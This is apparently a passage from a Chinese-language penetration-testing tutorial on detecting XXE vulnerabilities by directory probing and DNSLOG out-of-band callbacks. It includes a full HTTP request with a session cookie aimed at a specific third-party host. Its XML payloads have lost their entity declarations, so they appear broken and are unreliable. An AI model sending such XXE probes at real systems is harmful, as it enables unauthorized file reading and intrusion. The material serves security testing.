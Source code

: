 如果两个请求包的返回包一样那么就存在 XXE 漏洞

### 1.2.3、目录

输入任意文件或目录，查看返回包，如返回 500“没有那个文件或目录”，或者返回 200“文件内容”则存在 xxe 漏洞。

```php
win
<?xml version="1.0" encoding="UTF-8"?>

 
]> 

linux
<?xml version="1.0" encoding="UTF-8"?>

 
]> 
```

![image.png](assets/1700812438-d0facd652dd63ccff20e913cab567b70.png)

### 1.2.4, DNSLOG

也可以使用 DNSLOG 进行测试，使用如下 payload，如果 dnslog 平台能接受到信息，则证明存在 xxe 漏洞

[http://www.dnslog.cn/](http://www.dnslog.cn/)

```php
POST /dorado/view-service HTTP/1.1
Host: www.nxzhaj.com:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
content-type: text/xml
Content-Length: 133
Connection: close
Referer: http://www.nxzhaj.com:8080/
Cookie: JSESSIONID1=6061F2C1A054E8B25D732A1578F6D443

<?xml version="1.0" encoding="utf-8" ?>

]>
<root>&xxe;</root>
```